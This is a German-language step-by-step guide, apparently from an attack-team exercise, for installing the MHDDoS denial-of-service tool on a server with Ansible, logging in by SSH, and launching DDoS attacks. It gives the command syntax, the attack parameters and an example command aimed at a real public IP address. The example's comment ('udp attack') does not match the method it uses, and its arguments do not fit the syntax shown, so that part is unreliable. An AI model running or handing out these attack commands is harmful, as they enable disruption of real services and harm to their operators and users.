 ### Schritt 2: Playbook ausführen

Führe das Playbook mit Ansible aus (dauert einige Zeit)

```bash
ansible-playbook ~/Schreibtisch/ansible/playbooks/install_MHDDoS.yml --user ubuntu --private-key ~/.ssh/id_rsa -i ~/Schreibtisch/ansible/inventory/hosts
```

### Schritt 3: SSH Verbindung

Verbindet euch über SSH mit der “MHDDoS Instanz” 

```bash
ssh -i ~/.ssh/id_rsa ubuntu@<your-server-ip>
```

Wenn das erfolgreich war solltet es wie folgt aussehen:

![Untitled](ATTACK-Team%20Step-by-Step%20Guide%20e5f4ab167c3144bd9a27c654625e6f2b/Untitled%205.png)

### Schritt 4: Der erste DDos Angriff

Wechsel nun in das Verzeichnis der Dos Anwendung: /opt/MHDDoS

```bash
cd /opt/MHDDoS/
```

Bevor wir loslegen müssen wir noch die virtuelle Umgebung aktivierten

```bash
source venv/bin/activate
```

DDos Angriffe lassen sich nun über die Kommandozeile mit folgendem Syntax starten

```bash
python3 start.py <1=method> <2=url> <3=socks_type> <4=threads> <5=proxylist> <6=rpc> <7=duration> <8=debug=optional>
```

Hier eine Erklärung der einzelnen Parameter:

- Method (type of attack)
- Target URL or IP Address
- Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
- Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
- Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
- RPC (Requests pre connection)
- Duration (Time to finish attack in seconds)
- Debug Mode (Optional)

<aside>
⚠️ Startet langsam! Ziel ist es die Auslastung nie über 50% zu treiben!

</aside>

Dies ist ein Beispiel Command mit dem ihr starten könnt:

```bash
# Running udp attack from 100 threads, for 10 seconds  
python start.py connection 1.1.1.1 100 10
```